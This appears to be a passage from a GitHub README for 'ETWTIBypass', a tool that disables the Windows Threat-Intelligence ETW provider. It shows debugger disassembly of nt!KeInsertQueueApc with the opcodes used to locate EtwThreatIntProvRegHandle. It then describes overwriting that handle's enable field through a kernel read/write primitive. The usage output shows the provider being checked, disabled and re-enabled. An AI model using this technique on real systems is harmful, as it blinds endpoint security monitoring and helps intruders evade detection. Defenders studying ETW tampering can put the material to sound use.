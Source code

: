 <pre>
lkd> u
nt!KeInsertQueueApc+0x12:
fffff806`8f880392 4155            push    r13
fffff806`8f880394 4156            push    r14
fffff806`8f880396 4157            push    r15
fffff806`8f880398 4883ec70        sub     rsp,70h
<mark>fffff806`8f88039c 4c8b15b5dfc700  mov     r10,qword ptr [nt!EtwThreatIntProvRegHandle (fffff806`904fe358)]</mark>
fffff806`8f8803a3 <mark>458be9</mark>          mov     r13d,r9d
fffff806`8f8803a6 <mark>488be9</mark>          mov     rbp,rcx
fffff806`8f8803a9 4d85d2          test    r10,r10
</pre>

and so now, we need to do a binary search to find the handle, and for the binary search we can use the opcode highlighed (458be9 and 488be9) and start the search for the exported function `nt!KeInsertQueueApc`.

After getting the address of the handle, we just use our Read / Write primitive to enumerate the field and overwrite it.


## Usage

<pre>
C:\Users\Vixx\Desktop\Tools\To Publish\Final\ETWTIBypass\x64\Release>ETWTIBypass.exe /etw /check
Connected to device
StartSearch 7ff7b62e0380
Offset efe358
[+] nt!_ETW_REG_ENTRY : ffff8102dedfe590
[+] nt!_ETW_REG_ENTRY : ffff8102de5bf380
[+] IsEnabled: 1

C:\Users\Vixx\Desktop\Tools\To Publish\Final\ETWTIBypass\x64\Release>ETWTIBypass.exe /etw /disable
Connected to device
StartSearch 7ff7b62e0380
Offset efe358
[+] nt!_ETW_REG_ENTRY : ffff8102dedfe590
[+] nt!_ETW_REG_ENTRY : ffff8102de5bf380

C:\Users\Vixx\Desktop\Tools\To Publish\Final\ETWTIBypass\x64\Release>ETWTIBypass.exe /etw /check
Connected to device
StartSearch 7ff7b62e0380
Offset efe358
[+] nt!_ETW_REG_ENTRY : ffff8102dedfe590
[+] nt!_ETW_REG_ENTRY : ffff8102de5bf380
[+] IsEnabled: 0

C:\Users\Vixx\Desktop\Tools\To Publish\Final\ETWTIBypass\x64\Release>ETWTIBypass.exe /etw /enable
Connected to device
StartSearch 7ff7b62e0380
Offset efe358
[+] nt!_ETW_REG_ENTRY : ffff8102dedfe590
[+] nt!_ETW_REG_ENTRY : ffff8102de5bf380
